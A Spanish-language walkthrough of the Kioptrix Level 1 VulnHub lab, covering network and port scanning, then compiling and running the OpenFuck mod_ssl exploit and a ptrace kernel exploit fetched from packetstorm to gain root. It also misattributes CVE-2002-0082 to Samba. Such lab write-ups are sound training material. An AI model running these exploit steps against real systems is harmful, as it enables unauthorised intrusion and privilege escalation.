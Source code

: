 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=320&height=80&lines=KIOPTRIX_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/kioptrix-level-1-1,22/

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con Arp-Scan. 
```
arp-scan --interface wlan0 -l
```
![1](https://user-images.githubusercontent.com/75953873/177676522-7542cd60-297b-4537-a657-a6e613e22122.png)

IP host: `192.168.1.104`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.104
```
![2](https://user-images.githubusercontent.com/75953873/177677054-4379065b-7b00-4c1a-a2b7-63688488f52e.png)

Puertos abiertos: [22,80,111,139,443]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 22,80,111,139,443 -A 192.168.1.104
```
![3](https://user-images.githubusercontent.com/75953873/177677619-5b6fa806-14d5-4474-b6a8-800e1a8b8618.png)

![4](https://user-images.githubusercontent.com/75953873/177677647-f1513f29-98ca-40bd-901e-ac9466faa0aa.png)

Servidor corriendo: **HTTP Apache** (puerto 80 y 443)

O.S: **Linux**

URL: `http://192.168.1.104`

![5](https://user-images.githubusercontent.com/75953873/177677946-e9cfd943-0c77-44a3-991c-c2d5a0377648.png)

- *Paso 4:* Escanear vulnerabilidades en el servidor con Nikto. 
```
nikto -h http:///192.168.1.104
```
![6](https://user-images.githubusercontent.com/75953873/177678387-f0e381c3-874c-4919-b910-15f9fd2e5de6.png)

Vulnerabilidad **CVE-2002-0082**: permite que un atacante explote el desbordamiento de búfer que se encuentra en las versiones de Samba 2.2.0 a 2.2.8.

- https://www.cvedetails.com/cve/CVE-2002-0082/

- *Paso 5:* Localizar exploti, descargarlo, compilarlo y ejecutarlo. 
```
searchsploit -m 47080
```
![8](https://user-images.githubusercontent.com/75953873/177683169-2b356aea-a453-4d46-9e64-6bf3a0906d15.png)

```
mv 47080.c OpenFuck.c
gcc -o OpenFuck OpenFuck.c -lcrypto
./OpenFuck 0x6b 192.168.1.104 443 -c 40
```
![7](https://user-images.githubusercontent.com/75953873/177683272-6f97282a-31d1-46be-94c9-3020f0e959be.png)

```
wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
mv ptrace-kmod.c ptrace.c
python3 -m http.server 80
```
![10](https://user-images.githubusercontent.com/75953873/177688536-4457928c-35d9-4f25-96c4-e63533b71702.png)

```
cd /tmp
gcc -o exploit ptrace.c
chmod +x exploit
./exploit
cd /root
cat anaconda-ks.cfg
```
![9](https://user-images.githubusercontent.com/75953873/177688261-c2596953-e1ff-47d5-a64e-0f67619cad50.png)
